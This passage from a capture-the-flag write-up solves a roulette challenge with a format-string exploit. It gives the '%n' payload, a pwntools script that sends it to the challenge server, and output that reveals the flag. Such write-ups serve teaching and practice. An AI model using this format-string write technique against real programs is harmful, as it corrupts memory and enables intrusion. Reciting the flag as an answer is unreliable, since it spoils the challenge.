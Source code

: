 ```%10000001c%12$n``` which write 10000001 to the 12nd place on the stack against the server using ```nc```.
%10000001c%12$n

                                             <A LOT OF SPACES......>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       
You Won!
 The Flag is: MCL{I_HOPE_YOU'LL_BE_HAPPY_NOW}
```

We can get it also by using ```pwntools```:
```python
from pwn import *

payload="%10000001c%12$n"
game_count="1\n"
bet="202009\n"

p = remote('challenges.ctfd.io' , 30426)

print(p.recvuntil('?').decode('utf-8'))
p.send(game_count)
print(game_count)


print(p.recvuntil(')').decode('utf-8'))
p.send(bet)
print(bet)

print(p.recvuntil(':').decode('utf-8'))
p.send(payload)
print(payload)

print("Wait a few seconds to get the flag...")
print(p.recvuntil('}').decode('utf-8').strip())

```


Run it:
```console
┌─[evyatar@parrot]─[/media/shared/ctf/matrix/Roulette]
└──╼ $python3 roulette.py 
[+] Opening connection to challenges.ctfd.io on port 30426: Done
Welcome to Casino Royal
This is a roulette game
You have 1 point to start with.
How many games would you like to play(Up to 2)?
1

Choose your bet (1-36)
202009

Please enter your command (it will be printed to make sure you entered the right one):
%10000001c%12$n
Wait a few seconds to get the flag...
\x00ou Won!
 The Flag is: MCL{I_HOPE_YOU'LL_BE_HAPPY_NOW}
```
